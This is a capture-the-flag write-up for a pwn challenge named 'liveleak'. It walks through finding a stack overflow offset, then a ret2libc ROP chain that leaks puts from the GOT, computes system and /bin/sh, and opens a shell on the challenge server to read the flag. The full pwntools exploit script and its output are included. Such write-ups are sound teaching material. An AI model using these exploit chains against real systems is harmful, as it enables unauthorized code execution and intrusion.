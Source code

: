 ### **liveleak**

![image 2](https://github.com/user-attachments/assets/dfdfa5e8-69f2-4483-b3c2-0f3397fee2ec)


**Goal**: Get the flag from /flag on the server at 34.133.69.112:10007 using the provided binary chall.

---

## Find Offset

**script**

```python
from pwn import *

# Generate a 100-byte cyclic pattern
pattern = cyclic(100)
with open("pattern.txt", "wb") as f:
    f.write(pattern)

# Run the binary with the pattern
p = process(["./ld-2.35.so", "./chall"])
p.sendline(pattern)
p.wait()

# Check the crash to find the offset
core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8))
print(f"Offset: {offset}")
                                                                            
```

**output**

```python
[+] Starting local process './ld-2.35.so': pid 10845
[*] Process './ld-2.35.so' stopped with exit code -11 (SIGSEGV) (pid 10845)
[+] Parsing corefile...: Done
[*] '/home/kali/Downloads/core.10845'
    Arch:      amd64-64-little
    RIP:       0x401291
    RSP:       0x7ffffcb64e58
    Exe:       '/home/kali/Downloads/ld-2.35.so' (0x7fd170151000)
    Fault:     0x6161617461616173
[!] cyclic_find() expected a 4-byte subsequence, you gave b'saaataaa'
    Unless you specified cyclic(..., n=8), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=8) to override this.
Offset: 72
                                          
```

## Plan in 3 Steps

1. **Leak an Address**: Trick the program into printing a memory address from libc (a library it uses).
2. **Find Key Addresses**: Use the leaked address to locate system (runs commands) and /bin/sh (a shell).
3. **Get a Shell**: Run system("/bin/sh") to open a shell and grab the flag.

---

## Step-by-Step Exploit

### 1. Leak the Address

- Send a payload to make the program print the address of puts (a function in libc).
- **Payload**:
    - 72 bytes of junk (As).
    - Special addresses to call puts and return to main.

```python
payload = b"A" * 72
payload += b"\xbd\x12\x40\x00\x00\x00\x00\x00"  *# pop rdi; ret*
payload += b"\x18\x40\x40\x00\x00\x00\x00\x00"  *# puts@GOT*
payload += b"\x90\x10\x40\x00\x00\x00\x00\x00"  *# puts@PLT*
payload += b"\x92\x12\x40\x00\x00\x00\x00\x00"  *# main*
```

- Result: You get an address like 0x7f1234567e50.

### 2. Calculate Addresses

- Subtract 0x80e50 (the offset of puts in libc) from the leaked address to find the libc base.
- Add offsets to find:
    - system: base + 0x50d70
    - /bin/sh: base + 0x1d8678

### 3. Get the Shell

- Send a second payload to call system("/bin/sh").
- **Payload**:
    - 72 bytes of junk.
    - Align the stack, then call system with /bin/sh.

```python
payload = b"A" * 72
payload += b"\x1a\x10\x40\x00\x00\x00\x00\x00"  *# ret*
payload += b"\xbd\x12\x40\x00\x00\x00\x00\x00"  *# pop rdi; ret*
payload += p64(bin_sh_addr)  *# /bin/sh address*
payload += p64(system_addr)  *# system address*
```

---

## Full Exploit Code

```python
from pwn import *

# Set up the context
context.binary = "/home/kali/Downloads/chall"
context.log_level = "info"

# Connect to the remote server
p = remote("34.133.69.112", 10007)

# Binary addresses (these remain the same as local)
pop_rdi = 0x4012bd       # Gadget: pop rdi; ret
puts_plt = 0x401090      # PLT address of puts
puts_got = 0x404018      # GOT address of puts
main_addr = 0x401292     # Address to return to main after leak
ret_gadget = 0x40101a    # Simple ret gadget for stack alignment

# Step 1: Leak the puts address from libc
payload = b"A" * 72      # Padding to overwrite return address
payload += p64(pop_rdi)  # pop rdi; ret
payload += p64(puts_got) # Argument: address of puts in GOT
payload += p64(puts_plt) # Call puts to leak the address
payload += p64(main_addr)# Return to main for second input

info("Sending payload to leak libc address")
p.recvuntil(b"Enter your input: ")
p.sendline(payload)

# Receive and parse the leaked address
p.recvline()  # Discard input echo or newline
leak = u64(p.recvline().strip().ljust(8, b"\x00"))
info(f"Leaked puts address: {hex(leak)}")

# Step 2: Calculate libc base and function addresses
puts_offset = 0x80e50    # Offset of puts in libc (same as local)
libc_base = leak - puts_offset
info(f"Libc base: {hex(libc_base)}")

system_offset = 0x50d70  # Offset of system in libc
bin_sh_offset = 0x1d8678 # Offset of /bin/sh string in libc
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset
info(f"System address: {hex(system_addr)}")
info(f'/bin/sh address: {hex(bin_sh_addr)}')

# Step 3: Craft payload to call system("/bin/sh") with stack alignment
payload = b"A" * 72      # Padding
payload += p64(ret_gadget)# ret gadget to align stack
payload += p64(pop_rdi)  # pop rdi; ret
payload += p64(bin_sh_addr)# Set rdi to "/bin/sh" address
payload += p64(system_addr)# Call system("/bin/sh")

info("Sending payload to get shell")
p.recvuntil(b"Enter your input: ")
p.sendline(payload)

# Switch to interactive mode to interact with the shell
p.interactive()
```

**output**

```python
*] '/home/kali/Downloads/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to 34.133.69.112 on port 10007: Done
[*] Sending payload to leak libc address
[*] Leaked puts address: 0x73b5c73f6e50
[*] Libc base: 0x73b5c7376000
[*] System address: 0x73b5c73c6d70
[*] /bin/sh address: 0x73b5c754e678
[*] Sending payload to get shell
[*] Switching to interactive mode

$ whoami
pwnuser
$ cat /flag
umcs{GOT_PLT_8f925fb19309045dac4db4572435441d}

```

---

Get the Flag

- In the shell, type: cat /flag
- Example flag: umcs{GOT_PLT_8f925fb19309045dac4db4572435441d}
